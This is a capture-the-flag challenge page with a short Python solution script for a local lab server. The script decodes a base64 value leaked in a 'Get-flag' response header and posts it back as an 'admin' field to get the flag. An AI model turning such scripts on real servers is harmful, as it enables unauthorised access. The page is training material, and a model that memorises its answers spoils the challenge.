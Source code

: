 #### Goals
 * Try to find the flag

#### Server Address
 * http://localhost:10007/

#### Solution
```python
import requests
import base64
import time
import sys
	
if len(sys.argv) != 3:
    print("Usage: ")
    print("\tpython %s [HOST] [PORT]" % (sys.argv[0]))
    exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
	
url = "http://%s:%d/" % (host, port)
	
session = requests.Session()
response = session.get(url)
get_flag = base64.b64decode(response.headers["Get-flag"])
data = {
    "admin": get_flag,
}
print(session.post(url, data=data).text)

```

#### Writeups
 * TODO
